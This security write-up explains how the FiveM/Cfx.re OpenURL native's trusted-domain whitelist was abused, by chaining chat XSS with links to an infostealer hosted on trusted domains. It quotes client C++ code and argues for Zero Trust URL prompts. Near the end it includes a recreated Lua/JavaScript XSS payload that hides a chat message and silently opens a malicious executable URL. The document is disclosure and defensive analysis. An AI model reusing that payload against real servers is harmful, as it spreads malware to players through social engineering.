

# Cfx.re OpenURL Abuse & ZeroTrust
**Tags**: `Cfx.re`, `ZeroTrust`, `C++`, `Security`, `High Risk`, `Patched`


## Summary
Threat actors exploited trusted URLs in the OpenURL native by chaining XSS vulnerabilities with the client’s trusted domain logic. By hosting malicious binaries on domains such as `cfx.re`, attackers lowered user suspicion and increased successful infections via social engineering. As of May 29, 2026, one vector has been patched. The underlying vulnerable code lived in NUICallbacks_Native.cpp, which handles NUI native calls.

## History ("Zen/Strela" Infostealer)
A few servers have been targeted over the past few months by one or more threat actors abusing XSS vulnerabilities in well known resources, whether paid and locked down by [Escrow](https://docs.fivem.net/docs/server-manual/asset-escrow/) or free and open source. On February 4, 2026, I was alerted by a few friends that a server, which will remain redacted, was being targeted by multiple threat actors distributing infostealing malware through `OpenURL`. OpenURL tells the FiveM client to open a URL in the player's default web browser. While it can be useful for sharing links to a website, Discord, or forum, it can also be abused by server owners, threat actors, or disgruntled staff members. If you want to read more about this infostealer, visit ["Zen/Strela" - Cfx.re Malware Campaign](../malware-analysis/05-31-26-zen-stealer.md).

As of late May 2026, I received another tip that another attack had occurred despite the latest patch requiring prompts when using `OpenURL`. While looking through the source code for `NUICallbacks_Native`, I noticed something that had been added only a few days after the initial security patch. Prior to February 2026, `OpenURL` was entirely abusable. Although it required `http://` or `https://` in the URL, it did not prevent threat actors from forcing clients to open their web browsers through exploits or malicious intent.

```cpp
// Basically two detections to verify urls, prevented methods like file://
if (arg.find("http://") == 0 || arg.find("https://") == 0) {
    ShellExecute(nullptr, L"open", ToWide(arg).c_str(), nullptr, nullptr, SW_SHOWNORMAL);
}
```
*Source: [NUICallbacks_Native.cpp Initial Commit](https://github.com/citizenfx/fivem/commit/475d3d4a3695358a60aa08a71a496ba9203d3d10)*

On February 5th, 2026, an update (thanks to [Yorick](https://docs.yorick.gg/) and the Cfx.re engineering team) changed the behavior to require explicit user confirmation for most URLs. The code now checks URL validity with `IsUrlBlocked` and displays a confirmation modal via `g_showUrlConfirmModal`. This prompt prevents OpenURL from silently launching the user's browser, blocking automated or silent redirections.


*Example of URL confirmation modal*


However, just a few days later, a new commit arrived labeled "`refine URL confirmation modal`". It changed how the prompt behaved by removing the full ZeroTrust approach and introducing **trusted** and **untrusted** domains that could bypass the prompt entirely. From a security perspective, I understand what they were trying to achieve, but this is a maintenance nightmare because it requires complete control over the listed domains. That is less of a concern for **Rockstar-owned domains**, but Cfx.re hosts many services, including a forum, portal, and more.

```cpp
static bool IsUrlTrusted(const std::string& url)
{
	static constexpr std::array<std::string_view, 6> trustedDomains = {
		"cfx.re", 
        "fivem.net", 
        "redm.net", 
		"rockstargames.com", 
        "rsg.ms", 
        "take2games.com"
	};
	static constexpr std::array<std::string_view, 1> untrustedSubdomains = {
		"users.cfx.re"
	};
}
```
*Source: [NUICallbacks_Native.cpp](https://github.com/citizenfx/fivem/blob/cc6032bec3569c48097f708419f0690ace0bbe14/code/components/nui-core/src/NUICallbacks_Native.cpp)*


Recently, a threat actor hosted a malicious binary named `FiveM.exe` (the "Zen/Strela" infostealer) on `forums.cfx.re` and leveraged an XSS vulnerability in a server chat to distribute the link. They then social engineered players into running the binary. Below is a recreated example of the technique used to accomplish this; it's an effective and dangerous mass social engineering method.

```lua
local invokes = [[
    invokeNative('openUrl', 'https://support.cfx.re/hc/en-us/articles/13923273452316-FiveM-Client-Server-game-build-revision-mismatch-error');
    setTimeout(function() { invokeNative('openUrl', 'https://forum.cfx.re/uploads/short-url/some-malicious-file.exe'); }, 100);
]]
local payload = "let m=this.closest('.chat-message'); if(m){m.style.opacity='0';m.style.position='absolute';m.remove();} "..invokes
local finished = ""
TriggerServerEvent(__hidden_event_resource_name, '', '', '', '', '', finished, -1)
```


*Bypass Prompt by domain whitelist from `portal.cfx.re` (Via XSS)*


## Conclusion
Although `forum.cfx.re` uploads have been patched, the underlying abuse pattern remains the same. If attacker controlled content can live on a trusted domain, it can still be used to lower suspicion and drive infections. A domain whitelist can reduce friction, but it also creates a long term maintenance problem and leaves room for future compromise.

The most reliable mitigation is a Zero Trust model. URLs that launch external content should always be treated as untrusted unless the user explicitly approves them at the moment of action. That approach removes assumptions about domain reputation, prevents silent browser launches, and significantly limits the impact of XSS or hosting abuse on trusted properties. 


### TBC (To Be Continued)